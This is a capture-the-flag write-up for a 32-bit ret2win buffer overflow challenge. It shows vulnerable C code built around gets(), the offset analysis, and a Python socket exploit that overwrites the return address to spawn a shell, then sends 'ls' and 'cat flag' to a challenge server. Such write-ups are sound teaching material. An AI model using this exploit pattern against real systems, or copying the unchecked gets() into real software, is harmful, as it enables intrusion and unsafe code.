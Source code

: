 # Baby Buffer Overflow - 32bit ✅

## Challenge Description
> ![image](https://github.com/user-attachments/assets/4d48194c-d8f7-4766-8078-737f5ad03d9a)


## Approach
We get the source code and a binary file:  

![image](https://github.com/user-attachments/assets/a19b9ac8-9c70-4947-9d9e-4da63035dad0)


2. From the code, we can see that the vuln function contains a buffer overflow vulnerability. It reads data into a 16-byte buffer using gets(), which doesn’t check for overflow—perfect for exploiting! This type of challenge is called `ret2win` (return to win(), which is a typical function name for such challenges).

```C
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```
The goal is to overflow the buffer in vuln to overwrite the return address with the address of target. When vuln finishes, it will “return” to target instead of going back to main, executing the shell function in target.
It's a 32-bit file using this library:  

![image](https://github.com/user-attachments/assets/97d43191-7b3a-48e7-ad36-820fc3b40a1d)

So I had to make sure I have it instealled otherwise I couldn't run it:  

```bash
sudo apt install musl:i386
```


Opening the binary in ghidra, we can see the address of the target function:  

![image](https://github.com/user-attachments/assets/4e7c2900-b0e8-46fa-9c1c-96bff2bd29aa)

And we know that the vuln function takes 24 characters. 

![image](https://github.com/user-attachments/assets/e9ba1d8e-1838-4849-bc9e-7bb25e2d0a54)

This being a 32-bit binary, gives us an offset of 28. Using the script below we can overflow and get to the target.

```python
import socket
import struct

# Address of the target function in little-endian format
target_addr = struct.pack('<I', 0x80491F5)  # Address of the target function

# Set the correct buffer size
buffer_size = 28  # Buffer size to reach the saved return address

# Craft the payload
payload = b'A' * buffer_size + target_addr

# Connect to the remote server
host = 'challenge.ctf.games'
port = 32336

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((host, port))

    # Receive the initial message from the server
    initial_message = s.recv(1024).decode()
    print("Initial Message:", initial_message)

    # Send the exploit payload
    s.send(payload + b'\n')
    print("Payload Sent:", payload)

    # Send the command to list files
    command = b'ls\n'  # List files
    s.send(command)
    print("Command Sent:", command)

    # Wait for the response after the ls command
    while True:
        try:
            data = s.recv(1024).decode()
            if data:
                print("Response:", data)
                if "flag" in data:  # If flag file is listed, read it
                    # Now send command to read the flag
                    read_flag_command = b'cat flag\n'
                    s.send(read_flag_command)
                    print("Command to read flag sent.")
            else:
                print("No more data received.")
                break
        except Exception as e:
            print("Error:", e)
            break

```

![image](https://github.com/user-attachments/assets/4cef3cbc-f686-4dce-b048-9f65be320e85)



`flag{4cd3b4079393e861af489ca063373f98}`




   



